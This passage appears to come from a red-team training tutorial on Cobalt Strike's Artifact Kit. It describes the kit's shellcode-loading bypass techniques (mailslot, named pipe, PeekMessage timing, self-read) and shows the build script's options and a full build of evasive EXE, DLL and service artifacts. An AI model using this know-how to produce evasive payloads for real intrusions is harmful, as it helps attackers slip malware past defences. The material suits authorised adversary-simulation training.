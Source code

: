 The kit can be found in `C:\Tools\cobaltstrike\arsenal-kit\kits\artifact`.

The code for the entry point of each artifact format (i.e. EXE and DLL) can be found in `src-main`.  These include `dllmain.c` for the DLL artifacts, `main.c` for the EXE artifacts, and `svcmain.c` for the Service EXE artifacts.  These just call a function called `start`, so you should not need to modify these files in most cases.  The implementation of this function can be found in each bypass file.

These can be found in `src-common` and are named `bypass-<technique>.c`.  The included ones are:

- mailslot - reads the shellcode over a mailslot.
- peek - uses a combination of Sleep, PeekMessage and GetTickCount.
- pipe - reads the shellcode over a named pipe.
- readfile - artifact reads itself from disk and seeks to find the embedded shellcode.

  

Before making any modifications to the kit, let's just build one of these variants as it is.  The kit includes a build script which uses mingw to compile the artifacts.  Running it without any arguments will show the usage.
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh
[Artifact kit] [-] Usage:
[Artifact kit] [-] ./build <techniques> <allocator> <stage size> <rdll size> <include resource file> <stack spoof> <syscalls> <output directory>
[Artifact kit] [-]  - Techniques       - a space separated list
[Artifact kit] [-]  - Allocator        - set how to allocate memory for the reflective loader.
[Artifact kit] [-]                       Valid values [HeapAlloc VirtualAlloc MapViewOfFile]
[Artifact kit] [-]  - Stage Size       - integer used to set the space needed for the beacon stage.
[Artifact kit] [-]                       For a 0K   RDLL stage size should be 310272 or larger
[Artifact kit] [-]                       For a 5K   RDLL stage size should be 310272 or larger
[Artifact kit] [-]                       For a 100K RDLL stage size should be 444928 or larger
[Artifact kit] [-]  - RDLL Size        - integer used to specify the RDLL size. Valid values [0, 5, 100]
[Artifact kit] [-]  - Resource File    - true or false to include the resource file
[Artifact kit] [-]  - Stack Spoof      - true or false to use the stack spoofing technique
[Artifact kit] [-]  - Syscalls         - set the system call method
[Artifact kit] [-]                       Valid values [none embedded indirect indirect_randomized]
[Artifact kit] [-]  - Output Directory - Destination directory to save the output
[Artifact kit] [-] Example:
[Artifact kit] [-]   ./build.sh "peek pipe readfile" HeapAlloc 310272 5 true true indirect /tmp/dist/artifact
```
  

It looks a bit scary at first, but each option is explained in the help.  You can also review the _README.md_ file inside the Artifact Kit directory for more information.  Let's build a new set of artifact templates using the bypass-pipe technique.
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 310272
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
```